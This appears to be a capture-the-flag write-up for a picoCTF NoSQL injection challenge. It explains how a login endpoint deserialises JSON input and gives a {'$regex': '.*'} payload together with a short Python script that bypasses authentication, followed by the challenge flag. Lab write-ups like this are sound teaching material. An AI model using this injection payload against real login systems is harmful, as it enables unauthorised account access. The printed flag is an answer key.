




## No SQL Injection


We are provided with a simple login page.  



The webpage source code initialises a `pico` user that contains the flag in its `token` field and stores it in a NoSQL database.  

The password is randomly generated so we can't bruteforce the login credentials.  



There is also a vulnerability in the `/login` endpoint.  

When we submit the `email` and `password` fields, if an object is detected, the server will try to deserialise it as a JSON object before passing it into the database query.  



If we submit the object below under both fields, the database will perform a regex check that matches all users, allowing us to login as the `pico` user.  

```javascript
{"$regex": ".*"}
```

We can send our payload over using Python.  

```python
import requests
import base64

url = "http://atlas.picoctf.net:55510"


res = requests.post(f'{url}/login', json={
    'email': '{"$regex": ".*"}', 
    "password": '{"$regex": ".*"}',
})

token = res.json()['token']

print(token)
```

After submitting our payload, the server will return a Base64 string that decodes to the flag.  



Flag: `picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}`